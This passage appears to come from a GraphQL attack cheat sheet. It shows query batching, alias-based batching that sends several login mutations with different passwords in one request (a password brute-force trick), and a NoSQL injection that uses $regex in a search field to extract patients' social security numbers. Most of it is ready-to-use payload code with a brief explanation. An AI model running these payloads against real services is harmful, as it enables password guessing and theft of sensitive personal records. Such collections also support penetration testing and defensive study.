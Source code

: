 Query batching works by defining an array of operations in the request body. Each operation can have its own query, variables, and operation name. The server processes each operation in the array and returns an array of responses, one for each query in the batch.

```json
[
    {
        "query":"..."
    },{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ...
]
```

#### Query Name Based Batching

```json
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

Send the same mutation several times using aliases

```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```

## Injections

> SQL and NoSQL Injections are still possible since GraphQL is just a layer between the client and the database.

### NOSQL Injection

Use `$regex` inside a `search` parameter.

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```
